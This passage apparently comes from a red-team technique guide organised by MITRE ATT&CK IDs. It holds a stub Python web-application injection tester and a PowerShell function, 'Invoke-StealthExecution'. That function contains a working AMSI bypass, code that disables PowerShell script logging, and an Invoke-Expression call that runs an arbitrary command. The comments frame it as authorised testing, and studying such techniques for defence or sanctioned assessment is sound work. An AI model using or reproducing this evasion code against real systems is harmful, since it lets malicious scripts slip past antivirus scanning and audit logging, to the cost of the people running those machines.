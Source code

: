#### T1190 - Exploit Public-Facing Application
```python
# Web application security testing framework
class WebAppTester:
    def __init__(self, target_url, scope_config):
        self.target = target_url
        self.scope = scope_config
        self.vulnerabilities = []
    
    def test_injection_vectors(self):
        """Test for various injection vulnerabilities"""
        tests = {
            'sql_injection': self.test_sql_injection,
            'xss': self.test_xss,
            'command_injection': self.test_command_injection,
            'ssti': self.test_ssti
        }
        
        for test_name, test_func in tests.items():
            if self.in_scope(test_name):
                results = test_func()
                self.vulnerabilities.extend(results)
```

### Execution (TA0002)

#### T1059.001 - PowerShell
```powershell
# Advanced PowerShell evasion techniques
function Invoke-StealthExecution {
    param(
        [string]$Command,
        [switch]$BypassAMSI,
        [switch]$BypassLogging
    )
    
    if ($BypassAMSI) {
        # AMSI bypass for authorized testing
        $AMSIBypass = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static')
        $AMSIBypass.SetValue($null,$true)
    }
    
    if ($BypassLogging) {
        # Disable PowerShell logging for testing
        $LoggingSettings = [Ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings','NonPublic,Static')
        $LoggingSettings.SetValue($null, @{})
    }
    
    # Execute command with evasion
    Invoke-Expression $Command
}
```
